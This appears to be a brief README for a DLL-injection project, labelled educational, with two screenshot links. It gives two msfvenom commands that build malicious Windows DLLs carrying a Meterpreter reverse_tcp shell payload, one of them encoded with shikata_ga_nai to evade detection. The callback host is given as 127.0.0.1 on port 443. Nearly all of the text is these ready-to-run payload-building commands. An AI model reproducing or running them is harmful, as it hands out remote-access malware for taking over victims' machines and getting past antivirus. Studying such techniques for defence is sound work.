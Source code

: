 # DLL-Injection
simple DLL Injection; made for educational purposes

### crafiting a x86 malicious DLL with sgnx86 enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai -f dll -o dll_sgnx86.dll
![alt text](https://prnt.sc/Ugw0YYoNloYf)

### crafiting a x86 malicious DLL without enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -f dll -o dll_x86.dll
![alt text](https://prnt.sc/1NASfSzKtYnT)
